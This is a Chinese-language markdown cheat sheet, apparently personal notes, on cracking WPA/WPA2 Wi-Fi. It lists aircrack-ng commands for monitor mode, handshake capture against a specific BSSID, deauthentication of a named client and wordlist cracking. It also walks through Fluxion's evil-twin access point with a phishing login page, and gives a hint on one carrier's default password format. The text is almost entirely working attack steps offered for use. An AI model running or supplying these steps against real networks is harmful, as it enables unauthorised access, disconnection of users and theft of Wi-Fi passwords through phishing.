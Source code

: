 
被动方式
```sh
lusb # 看有没有显示
ifconfig # 查看 wlan0 无线网卡
airmon-ng # 查看是否支持监听模式 显示wlan0 支持
airmon-ng check kill # 可能需要 ifconfig eth0 down 关闭其他 eth
airmon-ng start wlan0 # 开启监听

airodump-ng wlan0  # 扫描 wifi

# BSSID             PWR   Beacons	CH  # CH wifi频段11
# 60:32:B1:56:3F:B2 -32   24      11
# BSSID              STATTION
# 60:32:B1:56:3F:B2  CC:08:FB:DD:42:18

# 只用此方式抓包较慢
airodump-ng -c 11 --bssid 60:32:B1:56:3F:B2 -w /home/lingdu/handshake wlan0

# 第一行 CH  9 ][ Elapsed: 27 s ][ 2023-01-14 22:40 ][ WPA handshake: 34:36:54:D8:1F:A9 # 显示 handshake 为攻击成功, 这时Ctrl+C退出命令
```

ACK方式
```sh
# 方式1 上面的不要关闭 执行下面
aireplay-ng -0 10 -a 60:32:B1:56:3F:B2 -c CC:08:FB:DD:42:18 wlan0
# 方式2 停止扫描， 执行攻击， 马上开启扫描。
# -0: 通知设备断开连接 10: 攻击次数 -a:目标bssid -c: 目标踢下线的设备
```

aircrack-ng -w ~/password.txt -b ~/handshake-01.cap


## 钓鱼 fluxion
https://github.com/FluxionNetwork/fluxion

```sh
./fluxion.sh -i

# 2.Handshake Snooper 检索WPA/WPA2加密散列。
# 3.扫描所有信道 （2.4G和5G),  绿色是正在有人在连接且扫描到的。白色不确定是否有连接。
# 选wifi，显示026直接输入26回车
# 2.重置攻击
# 2.aireplay-ng 解除认证方式
# hash 验证方法: cowpatty

# 返回
# 1 创建一个邪恶的双胞胎接入点
# 1 创建SSL证书
# 2 仿真（断开原网络的选项 需要测试，不确定效果）
# 认证页面 选3中文。 (如果确认对方路由器也可选别的)
```
## Dictionary

天翼wifi:8位数字密码，例如 xx4yyykw


## Article
[零度WIFI安全测试](https://www.youtube.com/watch?v=_9q9Cl555wg)